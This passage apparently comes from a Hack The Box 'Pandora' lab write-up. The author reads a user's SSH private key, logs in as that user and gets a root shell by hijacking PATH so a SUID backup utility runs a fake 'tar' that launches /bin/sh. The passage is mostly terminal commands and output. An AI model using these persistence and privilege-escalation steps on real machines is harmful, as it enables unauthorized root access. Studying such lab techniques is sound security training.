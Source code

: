```
matt@pandora:/home/matt/.ssh$ chmod 644 authorized_keys
chmod 644 authorized_keys
matt@pandora:/home/matt/.ssh$ cat id_rsa.pub >> authorized_keys
cat id_rsa.pub >> authorized_keys
matt@pandora:/home/matt/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
...
```

Once Matt's id_rsa is back on my box I can change modes and SSH in as matt:

```
┌──(ryan㉿kali)-[~/HTB/Pandora]
└─$ chmod 600 matt_id_rsa 
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Pandora]
└─$ ssh -i matt_id_rsa matt@10.10.11.136
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
```

Now, lets try that path hijacking again to get a root shell:

```
matt@pandora:/tmp$ touch tar
matt@pandora:/tmp$ echo "/bin/sh" > tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ PATH=/tmp:$PATH
matt@pandora:/tmp$ pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# id
uid=0(root) gid=1000(matt) groups=1000(matt)
# whoami
root
```

Nice, that worked this time!

Lets grab the final flag:
